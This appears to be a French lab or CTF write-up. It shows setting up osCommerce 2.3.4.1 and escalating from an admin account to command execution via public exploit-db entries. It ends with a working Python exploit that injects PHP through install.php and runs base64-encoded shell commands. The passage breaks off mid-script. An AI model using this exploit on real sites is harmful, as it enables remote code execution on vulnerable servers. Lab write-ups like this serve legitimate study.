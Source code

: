```console
Your MySQL connection id is 3
Server version: 5.7.44 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> create database oscommerce;
Query OK, 1 row affected (0,001 sec)
```

Une fois la création des tables faite, je crée un compte administrateur `devloop` / `hello`.

J'ai cherché sur `exploit-db` s'il n'y a pas des solutions pour passer de compte administrateur à exécution de commande.

J'ai d'abord vu cet exploit qui repose sur la gestion des newsletters :

[osCommerce 2.3.4.1 - Arbitrary File Upload - PHP webapps Exploit](https://www.exploit-db.com/exploits/43191)

Mais je n'avais aucun champ d'upload de mon côté...

J'ai finalement trouvé différentes sections où de l'image d'image était possible, mais à chaque fois ça échouait.

Finalement dans `Tools > Security Directory Permissions` je suis tombé sur une checklist et ça montrait clairement que les dossiers étaient en lecture seule sur le serveur...

Finalement, j'ai eu recours à cet exploit. Il repose sur de l'injection de code PHP :

[osCommerce 2.3.4.1 - Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/44374)

L'exploit manquant un peu d'ergonomie, je l'ai modifié pour qu'il offre un shell semi-interactif :

```python
from base64 import b64encode
import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://192.168.56.131/catalog/"
target_url = "http://192.168.56.131/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

sess = requests.session()

while True:
    command = input("$ ").strip()
    if command in ("quit", "exit"):
        break

    command = b64encode(command.encode("utf-8", errors="ignore")).decode()
    payload = '\');'
    payload += f'system("echo {command}|base64 -d|sh");'
    payload += '/*'

    data['DB_DATABASE'] = payload

    r = sess.post(url=target_url, data=data)

    if r.status_code == 200:
        response = sess.get(base_url + "install/includes/configure.php")
        print(response.text.strip())
    else:
```